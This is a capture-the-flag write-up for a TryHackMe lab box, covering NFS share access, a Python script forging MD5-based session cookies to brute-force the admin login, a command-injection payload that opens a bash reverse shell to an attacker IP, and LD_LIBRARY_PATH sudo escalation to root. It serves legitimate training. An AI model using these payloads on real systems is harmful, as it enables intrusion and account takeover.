 # Hijack Writeup

THis is a writeup for the Tryhackme challenge [Hijack](https://tryhackme.com/room/hijack)

## Enumeration

First, nmap as follows:

```sh
nmap --min-rate 4000 -p- 10.10.16.106
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-21 11:56 CEST
Nmap scan report for 10.10.16.106
Host is up (0.063s latency).
Not shown: 65526 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
38490/tcp open  unknown
44511/tcp open  unknown
49338/tcp open  unknown
57526/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 18.56 seconds
```

Since there is an NFS I want to take a look at it.

```sh
showmount -e 10.10.16.106
Export list for 10.10.16.106:
/mnt/share *
```

So, there is a share I can mount in the following way

```sh
mkdir /tmp/nfsfiles
sudo mount -t nfs 10.10.16.106: /tmp/nfsfiles
```

A look at the file permissions tells me, that a user with uid 1003 created the
share. Therefore, a user with the same uid on the local attack machine, where
the share has been mounted, is needed to get permissions to open the directory.

```sh
ls -l nfsfiles/mnt/

drwx------ 2 1003 1003 4096 Aug  8 21:28 share
```

```sh
sudo useradd hijack -u 1003  -m -s /bin/bash
```

Now switch to the user and take a look at the inside of the share.

```sh
sudo su hijack

ls -la nfsfiles/mnt/share/
total 12
drwx------ 2 hijack hijack 4096 Aug  8 21:28 .
drwxr-xr-x 3 root   root   4096 Aug  8 21:28 ..
-rwx------ 1 hijack hijack   46 Aug  8 21:28 for_employees.txt
```

Taking a look at the file provides the following

```sh
cat nfsfiles/mnt/share/for_employees.txt

ftp creds :

ftpuser:XXXXXXXXXXXXXXXXXXXXXXXX
```

Next up, using the credentials on the ftp server

```sh
ftp ftpuser@10.10.16.106
Connected to 10.10.16.106.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||38678|)
150 Here comes the directory listing.
drwxr-xr-x    2 1002     1002         4096 Aug 08 19:28 .
drwxr-xr-x    2 1002     1002         4096 Aug 08 19:28 ..
-rwxr-xr-x    1 1002     1002          220 Aug 08 19:28 .bash_logout
-rwxr-xr-x    1 1002     1002         3771 Aug 08 19:28 .bashrc
-rw-r--r--    1 1002     1002          368 Aug 08 19:28 .from_admin.txt
-rw-r--r--    1 1002     1002         3150 Aug 08 19:28 .passwords_list.txt
-rwxr-xr-x    1 1002     1002          655 Aug 08 19:28 .profile
226 Directory send OK.
```

Two files are `.from_admin.txt` and
`.password_list.txt` are of special interest . The former file contains the following

```
To all employees, this is "admin" speaking,
i came up with a safe list of passwords that you all can use on the site, these passwords don't appear on any wordlist i tested so far, so i encourage you to use them, even me i'm using one of those.

NOTE To rick : good job on limiting login attempts, it works like a charm, this will prevent any future brute forcing.
```

The latter is a list of random passwords the admin seems to have created earlier.

## Exploitation

At first I tried to circumvent the rate limiting, which took a lot of time and
led nowhere in the end. The key is the `PHPSESSID` cookie, it looked a bit
suspicious so I tried to decode it for the user I created on the page.

```base64
d2h4OmE4ZjVmMTY3ZjQ0ZjQ5NjRlNmM5OThkZWU4MjcxMTBj
```

decoded to

```
whx:a8f5f167f44f4964e6c998dee827110c
```

That hash looked a lot like an md5 hash, so I compared it to the password I used

```sh
echo -n "asdasd" | md5sum
a8f5f167f44f4964e6c998dee827110c  -
```

After that I created a Python script to hash & encode the cookie before iterating
the list and in this way I got the correct password.

```python
import hashlib
import base64
import requests

URL = "http://10.10.16.106/administration.php"

with open ("./ftp/passwords_list.txt", 'r') as _f:
    data = [x.strip() for x in _f.readlines()]

r = requests.get(URL)
page_content = r.text
print(r)

for line in data:
    _hash = hashlib.md5(line.encode('utf-8')).hexdigest().encode('utf-8')
    concat_str = b'admin:' + _hash
    _b64hash = base64.b64encode(concat_str).decode()
    print(_b64hash)
    headers = { "Cookie": f"PHPSESSID={_b64hash}"}
    r = requests.get(URL, headers=headers)
    if len(r.text) > len(page_content):
        print("password: " + line)
        print("cookie: " + _b64hash)
        break
```

After login there is a `Service Status Checker` on the administration page. You
can see the status of services/daemons installed on the box of the challenge through
`systemctl status <command>`. My first impression was to just chain commands
through `;` like `ssh
; id`, but that ended in

> Command injection detected, please provide a service.

Most of the commonly used shells have boolean operators like `&&` and `||` as a
condition for the previous exit status code. For example in bash you can check
the status code of the last command that was executed via `echo $?`. That means `&&` is true if the previous command
would return a `0` otherwise `||` is true and the command afterwards will be
executed.
These operators are not blocked by the page, it is possible to chain commands
like this

```sh
sshd && bash -c "bash -i >& /dev/tcp/$ATTACKER_IP/4444 0>&1"
```

Catch the shell via `nc -lvnp 4444` and [upgrade
it](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).

## Privilege Escalation

On the target `config.php` contains credentials for the user rick.

```php
 cat config.php
<?php
$servername = "localhost";
$username = "rick";
$password = "XXXXXXXXXXXXXXXXXXX";
$dbname = "hijack";

// Create connection
$mysqli = new mysqli($servername, $username, $password, $dbname);

// Check connection
if ($mysqli->connect_error) {
  die("Connection failed: " . $mysqli->connect_error);
}
?>
```

So, I switched to the user using `su rick` and got the first flag inside
`/home/rick/user.txt`. One of the first things to check on gained privileges is the current user's
permissions on  the availability of substituting other users, usually using
sudo.

```sh
su rick
Password: 

rick@Hijack:/var/www/html$ sudo -l
[sudo] password for rick: 
Matching Defaults entries for rick on Hijack:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_LIBRARY_PATH

User rick may run the following commands on Hijack:
    (root) /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```

Checking permissions did provide the inability to write on any of the files that are contained in the command that can be run through sudo for user rick. That means,
the next best thing to concentrate on is `env_keep+=LD_LIBRARY_PATH`.
[Hacktricks' page on linux privilege
escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)
contains [a section for
LD_LIBRARY_PATH](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld_preload-and-ld_library_path). 
I Compiled the library and preloaded it on the same line as the available sudo
command. Through this method I was able to spawn a root shell.

```sh
rick@Hijack:/tmp$ sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2

root@Hijack:/tmp#
```

The flag can be found inside the root directory

```sh
root@Hijack:/tmp# cat /root/root.txt

██╗░░██╗██╗░░░░░██╗░█████╗░░█████╗░██╗░░██╗
██║░░██║██║░░░░░██║██╔══██╗██╔══██╗██║░██╔╝
███████║██║░░░░░██║███████║██║░░╚═╝█████═╝░
██╔══██║██║██╗░░██║██╔══██║██║░░██╗██╔═██╗░
██║░░██║██║╚█████╔╝██║░░██║╚█████╔╝██║░╚██╗
╚═╝░░╚═╝╚═╝░╚════╝░╚═╝░░╚═╝░╚════╝░╚═╝░░╚═╝

THM{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
```

Happy Hacking!
